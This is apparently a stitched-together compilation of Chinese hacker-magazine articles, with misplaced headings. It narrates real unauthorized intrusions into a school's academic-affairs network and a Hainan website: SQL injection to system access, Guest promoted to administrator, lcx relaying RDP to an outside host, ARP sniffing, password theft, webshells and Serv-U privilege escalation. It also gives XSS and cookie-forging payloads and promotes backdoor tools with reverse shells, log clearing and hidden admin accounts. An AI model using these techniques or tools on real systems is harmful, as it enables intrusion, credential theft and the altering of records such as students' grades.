上次我分析了火狐的 ASP 通用防注入程序 2.0 的部分漏洞，现在 3.0 的程序也出了很久了。3.0 版本较以前版本有了很大的改进，添加了自动封锁 IP 功能，这样就可以防止我们重复大量提交数据导致数据库无限增大甚至溢出。另外，这个版本还提供了后台管理功能，更方便我们对攻击者提交数据的管理以及对 IP 的解锁。那么这个版本是不是就很安全了呢？我们还是先看看吧。

这个版本的程序包含 3 个文件：neea0_sqlin.asp 是防注入主文件，neea0_sql_admin.asp 是后台管理文件，SQLIN.MDB 是数据库。neea0_sqlin.asp 防注入的部分和以前版本是差不多的，但在数据库后加了 `On Error Resume Next` 语句，意思是程序如果出错则不管它，继续执行下面语句，这样就可以防止别人暴出记录入侵的数据库所在。如果有人尝试注入就记录下来，用 Kill_IP 封锁对方 IP。但是我们看到，这里对所记录的数据同样没有作过滤，是不是以为只要封锁其 IP，使得攻击者不能恶意填充数据，再加个防暴库语句，使得即使有些站长多此一举把记录数据库改为 ASP，我们也找不到数据库所在，那么对数据过不过滤就都无所谓了呢？如果只是原来的版本加上这些限制或许已经比较完美了，但我们应该注意到 3.0 还加了一个后台管理页面。

这里同样用了 `On Error Resume Next` 防范暴库，这点做得还是比较细心的（不过我觉得这么无聊会去把这个数据库文件也改为 ASP 的站长似乎很稀有啊）。但同时我们也要注意到，在这个页面中所有入侵记录都是直接调用 SQLIN.MDB 里面的数据，也没有经过任何过滤或转换，这就造成了一个比 2.0 更为严重的漏洞——跨站攻击。

下面我们具体测试一下这个漏洞。来到一个含防注入程序的页面（可以用代理测试，如图1所示），确定这个页面含有防注入程序后，我们先设好另一个代理，然后在这个页面后方直接填上 `<script>alert('欢迎访问CNN安全网www.cnnsafe.com---by光芒果')</script>`（图2），然后提交。按确定以后你还会看到弹出一个对话框显示：欢迎访问CNN安全网www.cnnsafe.com---by光芒果（图3），这就证明你的语句已经成功写入数据库了。下面以管理员身份登录防注入程序的管理，如图4所示，登录进去的时候同样看到了那个对话框。如果把语句换成自动下载木马的语句，然后用社会工程学骗管理员说自己输错了东西导致不能访问网站云云，这时管理员肯定会进入防注入后台帮你的 IP 解锁，只要他一进后台就马上中招。呵呵，这漏洞可比 2.0 严重多了。

# 西线无战事之留言本漏洞

需要注意的是，由于我们提交语句后也会执行我们提交的代码，所以如果是种木马的话最好先把数据提交上去，再改写到相应空间，以免自己中招。安全是容不得一丝疏漏的，作为安全工具更是如此，我衷心希望相关人员能把这个工具做得更加完善。

> …………………………………………………………………………

## 上传第450页

```asp
id=rs("user_no")
user=rs("user_name")
if not rs.eof then
    if password=rs("user_password") then
        response.cookies("adminok")=user
        response.cookies("admid")=id
        response.redirect "manage.asp"
    else
        response.redirect "login.asp"
    end if
end if
```

```asp
<%
if request.cookies("adminok")="" then
    response.redirect "login.asp"
end if
%>
```

呵呵，仅仅靠验证一个 Cookie 是不是为空就放行了？也太不负责了吧！这么信任 Cookie，现在让我们来看看如何轻松进入后台吧。既然是这么简单的脚本漏洞就用简单的脚本搞定吧！我们可以在浏览器里执行以下 JavaScript，设置相关 Cookie 后进入后台并修改内容。

```javascript
javascript:alert(document.cookie='adminok=admin')
javascript:alert(document.cookie='admid=13')
```

## 四、其他缺陷

很明显，观察数据库里的密码没有使用 md5 加密就是一个缺陷，还有就是发表留言的时候没有预防别人重复提交等。作为一个简单的留言本，也许对它要求这么高是有点严格，但是一个好的留言本是必须在安全上下功夫的。看了这样一个小小的程序，漏洞却是这样的齐全，你还敢不敢把网上的现成程序拿来就用呢？

这个系统虽小，漏洞却是很全的，真不知道这样的一个系统放到网络上会是什么后果。文章很简单，漏洞也是简单的漏洞，至于修补，我的建议是多关注一下 CGI 程序安全，然后再重写过滤代码，尽量做到把所有变量都过滤。

# 二、教务处的渗透之旅

想渗透教务处的网站很久了，当然不是因为我考试挂了很多科，只是对学校网络的安全性感兴趣。偌大的校园网对于我来说除了教务处以外基本上都是随进随出的，但是教务处我没有进去过。特别是那个公布成绩和其他信息的教务处网站，因为是 JSP+Apache+Unix 的组合形式，所以只能在它面前乱转悠。我尝试过针对这种系统的已知攻击方法，如暴 JSP 源代码、暴库、目录遍历等等，都无功而返。经过我这么一折腾，网站上基本不存在什么明显漏洞了。目标的 80 端口是没有什么希望了，再加上不知道用的什么防火墙策略，我都被挡在整个网络外面，除了 80 端口，根本窥探不到任何其他东西。但是我不大会这么轻易放弃，我的眼睛一直落在教务处主站上，等待着机会，总有一天会有弱点暴露在我面前的。

## 一、机遇

某天中午，当我又一次浏览网站的时候，发现在教务处网站上添加了一个链接，看了下发现是一个新的教学管理系统，并且是使用我熟悉的 asp 语言编写的。尽管不是在同一个 IP 上，但是 ping 了一下发现它们是同一个 IP 段，并且 IP 地址分配得相隔很近，这是不是意味着这是一个新的缺口呢？毕竟我还是对 asp 更熟悉。马上去浏览这个新的教学管理系统。果然是管理员自己编写的管理系统，参数基本都没有过滤，开始试了几个，连接出错的时候都是显示 Microsoft JET Database Engine 错误 80040e14。正觉得这么大咧咧的系统感觉上不可能是 access 的，终于在一个链接里让我发现了一个 sql server 的注入点，提交 http://202.*.*.238/register.asp?uid=0 and user>0--，提示 dbo 转换错误，如图1所示。直觉告诉我这是一个 sa 的注入点，因为我对学校网络管理员的作风是很清楚的，如果数据库是提供给单一主机的话，他是不会设置什么权限的。手工太慢了，用 nbsi 一跑，果然是 sa 最高权限啊！如图2所示。哈哈，赶快试试执行 cmd 什么的，果然是 system 权限并且畅通无阻。这样我在 80 端口打开了一个通往教务处内部的大门，等待许久的弱点终于出现了！

## 二、绕过防火墙

但是我一直是在 80 端口操作，执行命令的时候 NB 还总出错，有的时候执行长时间不响应，数据库操作还会僵死。尽管是 system 权限，但是我还是想拿这台机器的 3389，然后渗透以及查看更多信息什么的操作就方便啦！很幸运，也许是管理员便于自己管理的原因，已经打开了终端服务，默认的 3389 端口都没有改，我要做的就是用 NB 添加一个用户而已，于是执行命令：

```bash
net user guest /active:yes
net user guest nc!
net localgroup administrators guest /add
```

这样 Guest 就是管理员了，因为我知道服务器管理员对安全并不是很重视，所以我直接将 Guest 加为管理员了！但是当我用连接器连接的时候总是提示超时，跟我以前扫描时出现的情况一样，外面根本看不到 3389 端口。从执行 net start 的结果来看，主机上不存在防火墙类软件以及类似限制。然后想到教务处整个网络对外都是不可见的，那么应该是那个防火墙在作怪了，后面也证实了我的想法。也许正是因为这个防火墙，管理员才会对安全如此粗心呢！不管了，既然防火墙是禁止外部对教务处内网指定端口外的访问，那总不至于教务处内部不能访问外面吧？呵呵，教务处还怎么办公呢？既然防火墙是这样的机制，那就好办了，将这个服务器的 3389 端口映射出来，我们不就可以访问了么？因为我嫌用 NBSI 上传太麻烦，所以用 sa 写了海洋一句话木马到 web 目录，这下用海洋传东西方便多了！传什么呢？当然是传我的 lcx.exe 了，这样就可以把它的 3389 端口反弹到我能连接的机器上去，然后连接我能连接的机器就可以了。还是登录肉鸡执行：

```bash
lcx.exe -listen 8888 3389
```

用 nbsi 在我要入侵的机器上执行：

```bash
lcx.exe -slave 218.*.*.45 8888 202.*.*.238 3389
```## 12月

# 西线无战事黑客手册

呵呵，现在连接我肉鸡的 8888 端口就可以登录主机的 3389 啦！用我们建立的 Guest 账户登录主机，成功得到主机的 3389！如图 5 所示，不错，还是 2003 哦，嘿嘿！

## 三、内网渗透

嘿嘿，现在是完全处于教务处内网了。看着这台肉鸡，速度还真不错啊！但是我的目标还没有完成呢！不管了，既然来了就先看看内网的安全和网络布局到底如何吧！说不定一不小心可以弄到整个网络的控制权哦！

啊！用 x-scan 仔细地将内网大范围地扫描了一下，嘿嘿，需要时间比较长，慢慢扫吧，睡觉先。到第二天来看看扫描的成果，果然大部分外面不可见或者只能看到 80 端口的主机现在都赤裸裸地展现在眼前了，如图 6 所示。呵呵，找到了 2 台弱口令的机器，还开了 3389 呢。真的以为有防火墙的保护就安全了么？用最新的 ms05019（编辑注：是不是 ms05039 呀？ms05019 我没有找到现成的好用的溢出程序）将内网通吃了一把，不过只有 2 台的收获；看来自动更新都开着，补丁打倒是很勤快嘛！但是也许补丁是不够的。

我的入侵就是一个明证！现在再来看看内网的服务器分布情况，去网络邻居看了下，有很多的机器。其中有个 firewall，还有个 logserver 挺吓唬人的，还有就是一些以 server 命名的服务器组。不管了，反正我是在网吧做的事。然后登录上我得到权限的几个机器上，能 findpass 的就 findpass，其中一台服务器的主人好像还是防火墙管理员的哦！不过为什么能被我溜进去就奇怪了，难道真是鞋匠的孩子没鞋穿？翻了翻管理员的文件之后，也清楚了从外面为什么不能访问教务处网络了，如图 7 所示，防火墙之类的东西，也让我对内网的拓扑更清楚了。不过因为管理员没有登录的缘故，我没有找到他的密码，于是我将能找到密码的一个 vbe 脚本放到启动栏里，脚本内容如下：

```vb
Dim fso, MyFile
Set fso = CreateObject("Scripting.FileSystemObject")
Set MyFile = fso.GetFile("C:\Documents and Settings\All Users\开始\菜单\程序\启动\run.vbe")
MyFile.Delete

dim sh
set sh=createobject("wscript.shell")
sh.run "root.bat",0
```

然后 root.bat 里写入 `nt -findpass > pass.txt`，将 root.bat 放到系统目录下，希望下次他登录的时候得到他的密码，如果他的密码和防火墙的管理密码一样就好了，呵呵。不过鬼知道他什么时候登录呢？

看了下网络内的其他服务器，好像都是提供 80 和数据库服务的嘛，但是我对它们没有什么兴趣，重点扫描了我开始就盯紧的那个目标，唉，尽管已经比在外面扫描多出了好几个端口，但是多余的端口还是一个不开啊！不行，离我真正的目标还是那么远，值得挑战的那个 Unix 还好好地在那里呢！

## 四、接近目标

于是我通过扫描得到的 banner 看看能不能远程溢出，可是因为平时没有对 Linux 过多地了解，测试了几个溢出都是失败，看来还是不能用常规的办法入侵了！我的目标是得到教务处站点的权限，理由很简单，它上面有我们的成绩，有很多重要的数据库，即使没有 root 权限，有 webshell 的话也应该能找到数据库密码！

但是如何接近目标呢？我对他们内部的管理员如何管理并不清楚，社会工程学也是很难做到。忽然记得我们的网络是用交换机连起来的（我怎么知道的？那个什么思达交换机的广告还在学校机房里贴着，呵呵！），于是想到了 arp 欺骗。用非安全以前介绍的那个 arp 嗅探工具 cain 传到那个防火墙管理员的服务器上，接着先 arp -a，然后 ping 202.*.*.242，再执行 arp -a，果然 202.*.*.242 出现在我的列表了！呵呵，看来真的能嗅探欺骗哦！这下成功了，按照以前非安全介绍的办法嗅探 password，过几天我发现教务处站点上好像有更新的迹象，也就是说有管理员登录了，爬去主机看看，果然得到了管理员的 web 管理密码，如图 8 所示，还有其他的管理员用户的密码，不知道是不是跟他们的系统密码一样……不行，想远了，用我得到的管理员密码登录，呵呵，尽管不是系统管理员，但是权限已经很大了，所有学生老师的密码尽收眼底！后台如图 9 所示。

## 五、提权尝试

至于如何提升权限，我是不敢乱来的，这可是教务处啊！再说 jsp 我并不熟悉，看了下后台的功能设置，发现可以上传，上传一个 txt 文件并且抓包数据，如图 10 所示。

呵呵，在继续后看着返回来的文件具体路径，如图 11 所示，分析一下好像 5300 这个字符是我提交的哦！看来存在伪造自定义的问题，也就是以前的动网上传可以自定义路径符的问题，于是用我熟悉的“\0”字符串截断漏洞去测试。具体操作就是将提交数据里的 5300 修改成 test.jsp 空格，修改 Content-Length，然后用 Winnhex 修改空格为 00 空字符，再用 nc 提交，提示说文件上传成功，如图 12 所示。但是就是不能得到我的 jsp 文件，也许是 jsp 和 Unix 系统特殊的原因吧，漏洞利用失败了，问了一些人也都没有遇到过这样的情况！郁闷！不过目录倒是成功建立了，试着在变量里添加 ../ 这样的字符，在主机里建立任意的目录，发现也成功了。

但整个系统只支持 jsp 格式的文件，像 php 之类的可以上传，但是要么提示下载，要么直接返回源码。没有办法了，只能建立个 HackED_BY_JNc 这样的目录玩玩，顺便提醒下管理员了，如图 13 所示。

## 六、渗透的结果

到上面那一步其实渗透已经完成了，但是因为本能地对最高权限的向往，还是实验了一下其他的办法，譬如得知管理员的名字之后，我曾入侵过管理员校内的邮箱，但是里面也没有什么敏感的信息，然后搜集了管理员的生日还有电话号码，但是就是无法通过 ssh 登录上目标服务器，也无法用这些信息得到站点的系统管理员权限，也许是我自己的社会工程学学得不好吧！

但是按照我现在的权限和操作，想要得到什么的话可以改些重要的东西引诱系统管理员登录，譬如修改掉现有的管理员密码，如果想要恢复的话，我想只有最高权限的系统管理员才能做到吧！然后我的 arp 嗅探就可以把他的密码抓出来。在后台测试了下主页公告什么的，发现可以执行自己的 js 代码哦！如图 14 所示，`<` 和 `>` 等字符没有过滤的，也就是说主页可以挂马啦（如果管理员的 IE 不打补丁的话，甚至可以控制管理员的机器哦！但是这些都只是我的思路，并没有测试，毕竟是自己的学校啊！我的目的并不是破坏，证明了安全问题就到此为止吧！

## 总结

尽管最后没有拿到 root 或者更高的权限，但是作为一次渗透，我想已经足够了。后台的功能我已经能做我想做的事了，修改别人的分数，查看全校所有的密码，并且也已经暴露了学校网络存在的安全性上的问题。对于广大的管理员，我想还是一个忠告，不要过分相信你的防火墙，安全是个整体，单凭你的网络还是会因为一些小的弱点而被入侵的，特别是 80 端口。整个渗透我没有做什么破坏，文章写完之后也给了管理员一份，让他自己修改去吧！文章没有什么技术可言，有什么问题请到非安全论坛讨论，我的 ID：鬼剑心大人。

> 【文章中用到的工具 cain.exe、lcx.exe、ms05039.exe 已收录在本期光盘中】

纵观整个过程，80 端口的渗透→跳转到内网→常规扫描→溢出→突破获取终极权限，这是一条很流行的方式了。作者在内网做的工作并不够，有一项我认为是没做好的，应当放出 3389 的原有管理员密码，然后 ipc$ 其他机器，用添加的 guest 用户是看不到原本的 net use 列表的。还有，放一个 vbs 脚本到启动组，在 NTFS 格式下的机器也是不能够成功的。另外，是否内网有域，如何拿到域用户的密码，也没有做……当然，作者只是一次学校范围内的安全检测，没有必要苛求那么多了 ^_^。

# 入侵海南网

上半个月一直在培训 CISP 课程，刚刚考试完还不知道过了没有呢，所以就少了很多时间来玩黑。考试结束后没几天，恰好有个朋友说想研究一个站的代码，叫我看看能不能拿下。

拿到地址打开网页随便检查了一会，发现流行的 SQL 注射漏洞都不存在了。后来发现它还有一个论坛是 bbsxp 5.11 版的，大家都知道，这个版本可以爆库的。提交 `http://www.****.cn/hypc/luntan/%5cShowForum.asp?forumid=9`，得到数据库地址，如图 1 所示。

从图 1 中可以看到数据库还是默认的位置，下载下来打开后，发现管理员密码和社区区长密码不一样。MD5 密码只有靠运气爆破了。一个小时后，仍然没有结果，算了，放弃这条路吧。就算能 Cookies 欺骗进前台，也没什么用。

后来在很深的一个目录里发现该网站还有一个新闻系统，经检测存在 SQL 注射，数据库是 ACCESS 的，就是扫不出表名。又少了一条路，不过在我郁闷的时候随手用“%5c”测试了一下数据库，竟然运气来了，如图 2 所示。

可以看到数据库后缀是 ASP，马上我们都会想到，直接把数据库物理地址放到 FlashGet 里面，看是否能下载。果然一切都是那么顺利，但是下载下来后发现数据库里面没有什么管理员信息，有一点倒是肯定的，他的数据库没有做防下载处理。这样就又给我们一次得到 WEBSHELL 的机会。找到在线留言的地址 `http://www.****.cn/hypc/feedback.asp`，如图 3 所示。

在 E-mail 里写入 `<>execute request("u")%>` 接着提交留言，那么 `http://www.****/hypc/database/CycooShopV155_Store.asp` 这就变成了我们的 webshell 了。用海阳客户端来提交，得到如图 4 所示的页面。

只是这个 webshell 太累人，再上传一个海阳 2006，目的基本上达到了。现在想看他的源代码就随便了。不过我可不想仅仅要一个 WEBSHELL 就打住，接下来就提升权限吧。海洋 2006 还是比较全面的，服务器大部分信息都可以检测到。看到它开了终端服务，还有 Serv-U、Shell.Application、WScript.Shell 和 WScript.Network 这几个组件都没有禁用，这说明还是能运行程序的。随后把我的反向连接程序和 Serv-U 权限提升程序都传到系统盘下的 `m:\winnt\system32\inetsrv\data\` 目录下，大家都知道，默认情况下这个目录是可写的。我用一个反弹小程序得到了一个 shell，如图 5 所示。

# 黑客手册 连续攻击

从图 5 中可以看到，用我的那个反向连接的小程序得到了 CMD 下的 guest 权限的 shell。既然开了 3389，最好再加一个系统账号吧。令人郁闷的是他把 net1.exe 删除掉了。不过我们可以用 netl.exe user 来执行命令。刚开始我直接用 43958 端口来执行命令，不成功，又用 netstat 一查看了一下端口，原来管理员把 Serv-U 本地端口改成了 30648，手动执行还是不成功。这次我迷茫了，仔细盯着屏幕想了一会，突然发现这个服务器的系统盘是 m 盘，而 Serv-U 权限提升程序的源代码的执行权限默认都是在 C 盘的。马上改了程序源代码后编译上传执行，呵呵，这下算是终于执行成功了，如图 6 所示。

另外我再说一点，在利用 Serv-U 执行命令时，比如 copy、move 等命令要这样写：`Su.exe port, "cmd.exe /c copy c:\winnt\system32\inetsrv\data\sysinfo.dll c:\winnt\system32\sysinfo.dll"`，前面需要加上 `cmd.exe /c`，不然也是不成功的。好了，加完系统账号 3389 登录进去后再改改注册表，加一个查不出来的系统账号。再用 findpass 查出当前在线用户密码，接着再装一个不被查杀的 hack's door，事情就结束了。

> 【文字中用到的提升 Serv-U 的 su.exe 和海阳顶端 2006 版已收录在本期光盘中】

这篇写完后，发现前面所写基本都是废话，也就是最后在系统盘不是 C 盘的情况下，我提供了一个思路。哎，但愿前面所写也能给新手带来新的东西。

# 系统虽小，漏洞健全

最近很无聊，看看最新的《黑客手册》，都是一些牛人找漏洞的文章，于是打算也找点程序的漏洞，顺便看看有什么新的东西可以玩。直接到中国站长站里看了下，一般国内的 CGI 程序都可以在这个站里找到。在首页下载的最新更新里发现了一个叫做“扬州人仿 BBS 式留言系统用户版”的留言本程序，到下载页面一看，很小的一个系统，带上所有的图片也只有 80K，还给出了演示的页面。页面真的很漂亮，模仿 BBS 的系统。今天就来看看它的安全性吧，看看这么小的程序是不是能做得和现在的 BBS 一样安全呢？

## 一、SQL 注入漏洞

程序的美工做得真的很不错，因为我们有源代码，就不用去那些页面提交单引号什么的了，直接看看它怎么处理客户提交的参数就可以发现存不存在安全问题了。很不幸，所有的参数都没有进行任何关于这些敏感字符的过滤，只是验证变量是否为空就直接赋值给变量，然后提交到 SQL 语句里了。看看代码里我们提交的参数都是怎么处理的吧！很典型的如下：

```asp
user_lib=Request.Querystring("user")
if user_lib="" then
  user_lib="admin"
end if
```

```asp
Set radmin = Server.CreateObject("ADODB.Recordset")
sql="select * from user where user_name='"&user_lib&"'"
radmin.open sql,conn,3,2
```

是不是经典的 SQL 注入漏洞呢？这样的漏洞利用起来也是很简单的，我们提交的 user 是属于字符型的，所以构造 URL 如下：

- `http://127.0.0.1/gb/default.asp?user=admin'%20and%20'1'='1`（如图 1）
- `http://127.0.0.1/gb/default.asp?user=admin'%20and%20'1'='2`（如图 2）

这样的话就可以判断漏洞的存在，其中提交的参数到 SQL 语句里就会变成 `select * from user where user_name='admin' and '1'='1'` 这样的形式。现在你就可以用 NBSI 之类的工具来跑它的密码了，不过如果能用 Union 查询的话不是更简单么？那我们就提交这样的语句吧：`http://127.0.0.1/gb/default.asp?user=admin'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16%20from%20user%20where%20'1'='1`。

到 SQL 语句里就是 `select * from user where user_name='admin' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16 from user where '1'='1'` 了。只是我不明白的是，为什么字段已经匹配了还是显示 Union 查询的数据表个数不一样，大家可以自己测试哦！练手很好！不只是这一个 asp 文件，几乎所有的文件里有查询 SQL 的地方都有这样的漏洞，只是因为变量的类型不一样，利用的方式不一样而已。

郁闷了，我们跨站必须的 `<` 字符被完全过滤了，并且限定必须用表单 POST 提交，这样我们的跨站代码就没有什么用了。但是它还是给我们留了一点点东西的，它只是过滤 `<` 并没有过滤 `>` 和 `'`。既然它以自己的美工自豪，我们就用这两个字符破坏一下吧……（后文说明通过构造 `">` 破坏 HTML 结构）

## 二、跨站脚本漏洞

注册页面没有过滤任何特殊字符，所以可以注册看起来和其他人一样的用户。作者举例通过注册名伪装、留言本注入脚本等方式触发跨站，强调输入未做 `< >` 等过滤会导致风险。

是的，其实这并不是一个问题产生的，不是跨站一定需要 `<` 和 `>` 字符……通过主页地址注入 `onmouseover=alert(...)`，在链接渲染为 `<a href=... onmouseover=... target=_blank>` 后即可执行脚本。

```asp
if Request.ServerVariables("REQUEST_METHOD")="POST" then
    if request.form("name")="" then
        response.redirect "reg.asp"
    end if
    if request.form("admin")="" then
        response.redirect "reg.asp"
    end if
    if request.form("memo")="" then
        response.redirect "reg.asp"
    end if
    sql="select * from user where user_name='" & request.form("name") & "'"
    radmin.open sql,conn,3,2
    if not radmin.bof then
        response.redirect "gperror.htm"
        response.flush
    end if
    radmin.addnew
    radmin("user_name")=request.form("name")
    radmin("user_password")=request.form("password")
    ...
    <title><%=radmin("user_honame")%></title>
end if
```

呵呵，很粗糙的一个程序，光注重美工了……（继续讨论如何探测过滤与利用）

```asp
if Request.ServerVariables("REQUEST_METHOD")="POST" then
    if instr(Request.form("title"),"<")>0 or instr(Request.form("name"),"<")>0 _
       or instr(Request.form("email"),"<")>0 or instr(Request.form("homepage"),"<")>0 _
       or instr(Request.form("comment"),"<")>0 or instr(Request.form("ben"),"<")>0 then
        response.write "<center><font color='red'>留言簿里不能有'<'类似非法字符!</font>"
    end if
end if
```

## 三、Cookie 欺骗漏洞

系统里漏洞最严重的就是这个 Cookie 欺骗漏洞了，这可以说完全是因为程序作者对安全的漠然造成的。作者指出应使用服务端 Session 验证而非仅 Cookie 验证，并准备分析其实现方式。

## 随意门3.0&冬日之恋Z-1——创造畅通无阻的时代

特南克斯

后门顾名思义是为你提供一个方便的隐藏入口，它一直是玩黑高手们必不可少的工具。市面上精品的后门也比较多：Rootkit、WinEgg、Shell、黑客之门、Hxdef 等都非常经典，但很大部分并不怎么面向广大的黑客入门者和初学的朋友，配置专业烦琐。还是 Windows 界面通俗易懂，容易上手。因此，出现了两个面向小菜们的实用、通用型的后门：随意门与冬日之恋。

随意门与冬日之恋凭着方便好用的优势，虽然在市面上有一席之地，但总的来说，以前的版本（随意门 V1.0、冬日之恋以前的版本）BUG 比较多，而且使用时比较不爽（不会形容了），如随意门第一个版本虽然穿墙好，但是太多自定义了，小菜们不怎么喜欢；而冬日之恋功能太杂乱，感觉不精。所以，在国庆节假期间，本人出了九牛二虎之力，把冬日之恋跟随意门都做了一个非常大的改进，力求做到使用方便、通用、实用和隐蔽等，推出了两款最新的版本随意门 V2.0 跟冬日之恋 Z。这两个版本基本上修复了以前出现的很多 BUG，而且使用更简洁方便。之后又修复了随意门跟冬日之恋发现的小 BUG：对多 IP 的主机的绑定不准确等，分别推出更新的 3.0 跟 Z-1。因为在以前有些文章已经介绍了随意门跟冬日之恋，所以在这里我将着重介绍改进后的不同之处与使用方法。

## 随意门3.0登场

（随意门双手抱拳行礼）让大家久等了，终于轮到我随意门 V3.0 出场了。现在很多人都有钱了，喜欢自己拉一根 ADSL 线，炫耀自己有一个公网 IP，然后方便使用远程控制软件的“自动上线”功能（这样穿防火墙容易嘛）。我随意门也不例外，为了更好地实现后门的隐蔽性、穿墙性，我也使用了反向连接的方式（注意：随意门主要是面向有钱人的 ADSL 线哦，内网的请稍候，下面的冬日之恋 Z 就是你们发挥的时候了）。声明一下，我随意门不是远程控制软件，使用反向是为了穿墙方便。虽然与远控同使用反向连接方式，但是有着根本区别。我是一个后门而非远控，这个是我固有性质，请不要混淆哦。

3.0 跟 1.0、2.0 比起来，有很大的不同，首先是配置界面上更简洁美观了，然后较大的不同是使用方法跟连接方法，下面着重介绍改进后的不同使用方法。

## 1. 配置选项

很简单，打开配置程序你就会了大半了，然后点击生成服务端，你就已经完全掌握怎么配置了。跟 V1.0 很不一样吧，更加简洁了。配置程序的界面如图 1 所示。

基本设置：

- 端口：这里填入的任何信息都无效，因为随意门是不开放任何端口的。你可以用专用连接器连接对方任意开放的端口。
- 密码提示：连接对方之后看到的提示信息，自定义！可以迷惑管理人员。
- 进入密码：进入后门必须的密码。
- 命令提示符：输入密码之后就可以得到以命令形式控制的控制权，这个是命令提示符。在这个提示符下输入控制命令。

服务设置：

- 服务名：后门会安装成系统服务，利用 svchost.exe 宿主程序启动，这个是安装的内部服务名，用于区别其他服务。注意，这个选项只能是英文，不能用汉字，否则会安装错误。
- 服务显示名：显示在服务列表上的信息，这个越伪装越好！
- 服务描述：在服务列表上的描述服务设置，这个也越伪装越好！

上线设置：

- SMTP 服务器：发送 IP 邮件的信箱所在的服务器，这里推荐用 163 邮箱作为发送 IP 上线邮件。
- 发送信箱：用于发送 IP 邮件的邮箱，这里与上面的 SMTP 服务器对应，163 的邮箱对应的 SMTP 服务器是：smtp.163.com
- 验证用户名：发送 IP 邮件的邮箱用户名。比如同上用 163 的邮箱有一个 163 的用户名。
- 验证密码：用于发送 IP 邮件的邮箱密码，同上的对应密码。
- 接收邮箱：另外一个邮箱用于接收上线邮件。比如说 QQ 邮箱：tenax@qq.com
- 信件主题：主题啦！这个没什么好说的哦。

## 2. 安装运行

`Rundll32 服务端.dll,Install`

安装完毕，如果你不放心是否安装成功，可以去看看安装日志。日志的全路径是：`%system32%\temp\sysevent.tmp`（`%system32%` 是环境变量，如果是 XP 就是 C:\windows。如果是 2000 的话就是 C:\WINNT，我假定系统就安装在 C 盘）。可以用 type 命令查看：`type c:\windows\temp\sysevent.tmp`。

## 3. 连接

这是跟 V1.0 有着根本区别的地方了，V1.0 只有一个 DOS 界面的连接器，而且连接器比较不稳定，有时上不了线，而 3.0 改进了这点，用 NC 进行反向 SHELL，反向更加稳定可靠了哦。好，各位留神，开始进入两个神级大臣：c.exe 跟 NC.exe，一个是控制台模式下的（c.exe），一个是界面式的（NC.exe）。NC.exe 是一个图形界面的连接器。NC.exe 运行后，在 IP 里面填入目标 IP 跟任意开放端口，输入目标 IP 与任意开放端口后按回车就可以弹出一个 NC 的 DOS 界面出来，等待上线，Ctrl + C 退出。那个其实就是 `nc -l -p 1330`（正在监听 1330 端口等待上线）。注意，不能直接自己 `nc -l -p 1330`，如果你自己 `nc -l -p 1330`，是不会有机子上线的，原因是反向连接器会在 NC 监听的时候发送 ICMP/UDP/TCP 包通知目标主机上线。

而运行 c.exe 后直接可以看到一些帮助信息。

用 NC.exe 跟 c.exe 连接后分别如图 5、6 所示。

## 4. 卸载

卸载后门有以下两种方法。第一种是直接从命令行上输入：**Rundll32 DLL名,Uninstall 密码**。

这里的密码是你设置的后门进入密码，用于防止别人非法卸载后门。如图 8 所示，我配置后门的进入密码默认是 password，所以我输入：`rundll32 asdf.dll,Uninstall password`。如果不放心是否卸载成功，你也可以查看日志。

第二种是连接进入后门之后用命令 `remove` 进行卸载。

大家一定要注意的是，因为随意门 V3.0 采用反向连接，所以穿透防火墙的能力比以前很多后门的能力强。但正是因为采用反向连接，所以连接的两台机子必须要有一个公网 IP，这个是实现连接的前提。还有一点要注意，就是客户端不要开防火墙，不然禁止了反向连接，就不能连上了。有时连接不上，反复连接几次就可以了。到这里随意门 V3.0 就介绍完毕了！大家歇歇\~\~\~

## 冬日之恋Z-1的特长

冬日之恋 Z-1 不耐烦了，变成超级赛亚人，一个龟派气功把随意门弹了出去。烦不烦啊，我还没上场呢，啰里啰嗦的。本来我冬日之恋已经被特南克斯停止开发了。可是应多人的要求，还是把我重新装修改版了一下，经过多方面的反馈跟检测，以前版本出现的 BUG 都基本修复并完善了，现在的我更简洁易用。啊\~\~\~

连接的时候还要注意，以前的版本是在密码提示符出现之前显示“OK...!!!telnet service Ready!!!”，而新的 3.0 是先输入密码之后才有这个提示。

还有就是一些服务器可能有几个以上的 IP 地址，例如我的机子就有两个 IP：192.168.243.1 与 192.168.0.1。为了不过多占用原来的端口资源，后门安装后只会在其中一个 IP 地址上面进行监听，所以你要查看日志确定后门在哪个 IP 上进行复用端口，然后连接那个 IP，如果连接其他 IP 是不能得到 SHELL 的哦。如图 7 所示。

## 总结

这次随意门 V3.0 与冬日之恋 Z-1 挑战以前的所有版本，分别针对了不同的用户，一个采用反向连接（外网），一个还是正向连接（内网），它们各有各的长处跟短处，两者是兼容的，同时安装进行配合的话，可以说是天衣无缝啦！由于是在同一 IDE 开发的，所以冬日之恋 Z-1 的使用命令做了一个比较大的改动，两个后门的使用命令都是一样的，而且界面、用法等都基本相同。可以说两个是兄弟版了。在此列出使用命令如下：

| 命令 | 说明 |
|---|---|
| shell | 得到一个 Cmd Shell |
| pslist | 列举进程 |
| pskill PID | 杀进程，后跟进程 ID |
| svclist | 列举系统服务 |
| svckill SERVICENAME | 杀服务，后跟服务名 |
| clean | 清理日志 |
| info | 得到系统信息 |
| findpass | Find Administrator's Pass |
| opents PORT | 开启终端，后跟自定义终端端口 |
| closets | 关闭终端 |
| clone Password | 将 Guest 克隆成管理员用户，后跟自定义的 GUEST 密码 |
| admin USER PASS | 添加隐藏的高级管理员账户，后跟用户名与密码 |
| userlist | 列举系统的所有用户 |
| deluser USER | 删除用户名，后跟要删除的用户名 |
| cd DIR | 类似于 DOS 下的 cd 命令，改变当前目录 |
| dir | 众所周知…… |
| del/delete FILE | 删除文件，后跟文件名 |
| ex/exefile | 运行程序，后跟 EXE 名 |
| restart | 重启 |
| shutdown | 关机 |
| remove | 卸载后门 |
| http:// /srv/exe | 下载东西 |
| quit | 离开 |

功能虽说不怎么样，但对于个后门来说应该比较足够了。太多功能了一般也用不上，只是增大了个头。隐藏的后门，加一个隐藏的账号，再加一个 3389 端口，这样的肉鸡难道还会跑掉？！在帮助文件里面有详细的事例介绍跟图卡 SHOW，在这里为了节省大家时间就不把图片 SHOW 出来了。

# 精品小工具亮相

- **opents：** 提供一个没有加壳的（没有加壳的或许会被杀，但你自己加了壳它就恐怕也许大概……自己想）
- **开3389生成器：** 方便生成一个开 3389 的东西，免去烦琐命令操作，直接运行就可以开 3389。
- **捆绑机：** 你喜欢就用，不喜欢也无所谓，不知道还免不免杀，没测试。
